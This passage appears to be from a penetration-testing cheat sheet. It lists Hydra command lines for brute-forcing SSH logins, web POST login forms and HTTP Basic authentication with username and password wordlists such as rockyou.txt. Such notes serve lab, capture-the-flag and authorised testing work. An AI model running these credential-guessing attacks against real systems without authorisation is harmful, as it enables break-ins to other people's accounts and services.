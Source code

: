 Add `-F` to stop Hydra on the first match
## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
```

Using a username and password file, separated by a `:`

```bash
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt x.x.x.x {-s xxxx} http{s}-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```

### Basic HTTP Authentication:

```bash
hydra -l kevin -P /opt/rockyou.txt x.x.x.x {-s xxxx} x.x.x.x http{s}-get / 
```

